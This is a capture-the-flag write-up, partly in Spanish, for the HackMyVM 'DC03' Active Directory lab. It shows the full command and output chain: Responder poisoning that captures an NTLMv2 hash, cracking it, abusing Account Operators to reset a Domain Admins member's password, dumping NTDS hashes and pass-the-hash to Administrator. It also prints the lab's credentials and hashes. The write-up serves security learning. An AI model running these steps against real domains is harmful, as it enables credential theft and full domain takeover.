



# 🖥️ Writeup - DC03

**Platform:** HackMyVM  
**Difficulty:** Medium  
**Operating System:** Windows  

# INSTALLATION

We download the `zip` containing the `.ova` of the DC03 machine, extract it, and import it into VirtualBox.

We configure the network interface of the DC03 machine and run it alongside the attacker machine.

# HOST DISCOVERY

At this point, we still don’t know which `IP` address is assigned to DC03, so we discover it as follows:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```

Info:
```
 Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:e5:b1:52      1      60  PCS Systemtechnik GmbH      
 10.0.4.19       08:00:27:1c:e8:6f      1      60  PCS Systemtechnik GmbH
 ```

 We identify with high confidence that the victim’s IP is `10.0.4.19`.

# PORT SCANNING

Next, we perform a general scan to check which ports are open, followed by a more exhaustive scan to gather relevant service information.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.19
``` 

```bash
nmap -n -Pn -sCV -p88,389,445 --min-rate 5000 10.0.4.19
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-08 14:29 CEST
Nmap scan report for 10.0.4.19
Host is up (0.00014s latency).
Not shown: 65517 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-08 21:30:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49707/tcp open  msrpc         Microsoft Windows RPC
49783/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:1C:E8:6F (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.88 seconds
```

It is clear that we are dealing with an `Active Directory` environment, and the domain is `SOUPEDECODE.LOCAL`.

We then add the domain to the `/etc/hosts` file.

Info:
```
127.0.0.1	localhost
127.0.1.1	kali
10.0.4.19       SOUPEDECODE.LOCAL
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Ahora podemos empezar a enumerar los diferentes puertos, SMB, LDAP, rpcclient.
Pero no encontramos nada.

Tampoco podemos hacer un ataque de SMB relay porque las firmas estan activas, pero vamos a probar LLMNR poisoning con la herramienta responder.

# RESPONDER

```bash
responder -I eth1
```

Info:
```
[+] Listening for events...

[*] [NBT-NS] Poisoned answer sent to 10.0.4.19 for name FILESERVER (service: File Server)
[*] [MDNS] Poisoned answer sent to 10.0.4.19       for name FileServer.local
[*] [LLMNR]  Poisoned answer sent to 10.0.4.19 for name FileServer
[*] [MDNS] Poisoned answer sent to fe80::edad:12f:6672:cac7 for name FileServer.local
[*] [LLMNR]  Poisoned answer sent to fe80::edad:12f:6672:cac7 for name FileServer
[*] [MDNS] Poisoned answer sent to fe80::edad:12f:6672:cac7 for name FileServer.local
[*] [LLMNR]  Poisoned answer sent to fe80::edad:12f:6672:cac7 for name FileServer
[*] [MDNS] Poisoned answer sent to 10.0.4.19       for name FileServer.local
[*] [LLMNR]  Poisoned answer sent to 10.0.4.19 for name FileServer
[SMB] NTLMv2-SSP Client   : fe80::edad:12f:6672:cac7
[SMB] NTLMv2-SSP Username : soupedecode\xkate578
[SMB] NTLMv2-SSP Hash     : xkate578::soupedecode:b5ce6ffdd5f39858:403FB1F22321261B148FEB962928A015:010100000000000080EE2945CE20DC010C799E1B7C218B070000000002000800340055005800590001001E00570049004E002D0039004700310047003500530039004F0051004500550004003400570049004E002D0039004700310047003500530039004F005100450055002E0034005500580059002E004C004F00430041004C000300140034005500580059002E004C004F00430041004C000500140034005500580059002E004C004F00430041004C000700080080EE2945CE20DC010600040002000000080030003000000000000000000000000040000097D0F98674D72DB5646FF15041D6D6AA331B2CE046011B79F42E632470D871260A0010000000000000000000000000000000000009001E0063006900660073002F00460069006C0065005300650072007600650072000000000000000000
```

Hemos interceptado el hash del usuario xkate578, asi que lo pondremos en un archivo hash.txt listo para crackear.

# HASH CRACKING

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```

Info:
```
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jesuschrist      (xkate578)     
1g 0:00:00:00 DONE (2025-09-08 14:44) 100.0g/s 102400p/s 102400c/s 102400C/s 123456..bethany
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Ya contamos con credenciales para el usuario xkate578 : jesuschrist . Por lo que ya podemos empezar a enumerar los diferentes servicios.

# SMB

```bash
netexec smb SOUPEDECODE.LOCAL -u 'xkate578' -p 'jesuschrist' --shares
```

Info: 
```
SMB         10.0.4.19       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.0.4.19       445    DC01             [+] SOUPEDECODE.LOCAL\xkate578:jesuschrist 
SMB         10.0.4.19       445    DC01             [*] Enumerated shares
SMB         10.0.4.19       445    DC01             Share           Permissions     Remark
SMB         10.0.4.19       445    DC01             -----           -----------     ------
SMB         10.0.4.19       445    DC01             ADMIN$                          Remote Admin
SMB         10.0.4.19       445    DC01             C$                              Default share
SMB         10.0.4.19       445    DC01             IPC$            READ            Remote IPC
SMB         10.0.4.19       445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.4.19       445    DC01             share           READ,WRITE      
SMB         10.0.4.19       445    DC01             SYSVOL          READ            Logon server share
```

Vemos que hay una share llamada share, sobre la qual tenemos permisos asi que vamos a intentar acceder a su contenido.

```bash
smbclient  //SOUPEDECODE.LOCAL/share -U xkate578
```

Una vez dentro encontramos la flag de usuario, que passamos a nuestra maquina y leemos.

```
12f54a96f64443246930da001cafda8b
```

En este punto obtuve la lista completa de usuarios del sistema para ver si conseguia alguna otra credencial a traves de password spraying, pero no obteni ninguna. Tambien intente un Kerberoasting y AS REP roast attack y no obtuve resultado.

Voy a enumerar todo el entorno de AD con ldapdomaindump para obtener mas informacion de como moverme lateralmente o escalar privilegios.

# LDAP DOMAIN DUMP

```bash 
ldapdomaindump -u 'SOUPEDECODE\xkate578' -p 'jesuschrist' 10.0.4.19
```
Info:
```
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```
Ahora nos abrimos un servidor http en el puerto 80 para ver los resultados.

```bash
python3 -m http.server 80
```

Entramos por el navegador y empezamos a examinar el dumpeo de informacion.

Encontramos que el usuario xkate578 forma parte del grupo Account Operators:



El grupo Account Operators concede privilegios limitados de creación de cuentas a un usuario. Los miembros de este grupo pueden crear y modificar la mayoría de los tipos de cuentas, incluidas las cuentas para los usuarios.

Por otra parte vemos que el grupo Operators forma parte del grupo Domain Admins.



Y en el grupo Operators solo hay un usuario, el usuario fbeth103.



Esto quiere decir que si conseguimos cambiar la contraseña del usuario fbeth103 con los privilegios del grupo Account Operatos, tendremos acceso a nivel de administrador.

# PRIVILEGE ESCALATION

Vamos a cambiar la contraseña del usuario fbeth103 con la herramienta impacket changepasswd.

```bash
impacket-changepasswd 'SOUPEDECODE.LOCAL/fbeth103@10.0.4.19' -altuser 'xkate578' -altpass 'jesuschrist' -newpass 'Pass1234!!' -no-pass -reset
```

Info:
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Setting the password of SOUPEDECODE.LOCAL\fbeth103 as SOUPEDECODE.LOCAL\xkate578
[*] Connecting to DCE/RPC as SOUPEDECODE.LOCAL\xkate578
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```

Vamos a comprobar que la contraseña se ha cambiado correctamente.

```bash
crackmapexec smb 10.0.4.19 -d SOUPEDECODE.LOCAL -u fbeth103 -p 'Pass1234!!'
```

Info:
```
SMB         10.0.4.19       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.0.4.19       445    DC01             [+] SOUPEDECODE.LOCAL\fbeth103:Pass1234!! (Pwn3d!)
```

Tenemos acceso al usuario fbeth103, y como tiene privilegios de administrador, podemos conseguir el hash NTLM del usuario Administrator dumpeando el archivo ntds

```bash
crackmapexec smb 10.0.4.19 -u fbeth103 -p 'Pass1234!!' --ntds
```

Info: 
```
SMB         10.0.4.19       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.0.4.19       445    DC01             [+] SOUPEDECODE.LOCAL\fbeth103:Pass1234!! (Pwn3d!)
SMB         10.0.4.19       445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.0.4.19       445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2176416a80e4f62804f101d3a55d6c93:::
SMB         10.0.4.19       445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.4.19       445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
SMB         10.0.4.19       445    DC01             soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
SMB         10.0.4.19       445    DC01             soupedecode.local\otara1:1104:aad3b435b51404eeaad3b435b51404ee:ee98f16e3d56881411fbd2a67a5494c6:::
SMB         10.0.4.19       445    DC01             soupedecode.local\kleo2:1105:aad3b435b51404eeaad3b435b51404ee:bda63615bc51724865a0cd0b4fd9ec14:::
SMB         10.0.4.19       445    DC01             soupedecode.local\eyara3:1106:aad3b435b51404eeaad3b435b51404ee:68e34c259878fd6a31c85cbea32ac671:::
SMB         10.0.4.19       445    DC01             soupedecode.local\pquinn4:1107:aad3b435b51404eeaad3b435b51404ee:92cdedd79a2fe7cbc8c55826b0ff2d54:::
SMB         10.0.4.19       445    DC01             soupedecode.local\jharper5:1108:aad3b435b51404eeaad3b435b51404ee:800f9c9d3e4654d9bd590fc4296adf01:::
SMB         10.0.4.19       445    DC01             soupedecode.local\bxenia6:1109:aad3b435b51404eeaad3b435b51404ee:d997d3309bc876f12cbbe932d82b18a3:::
SMB         10.0.4.19       445    DC01             soupedecode.local\gmona7:1110:aad3b435b51404eeaad3b435b51404ee:c2506dfa7572da51f9f25b603da874d4:::
..................<REST_OF_USERS>.........................................
```

Ahora podemos utilizar el hash de Administrador para autenticarnos via WinRM 

```bash
evil-winrm -i SOUPEDECODE.LOCAL -u 'Administrator' -H '2176416a80e4f62804f101d3a55d6c93'
```

Info:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
soupedecode\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
Ya somos Administrator!

En el directorio Desktop encontramos la flag de root:

```
b8e59a7d4020792c412da75e589ff4fc
```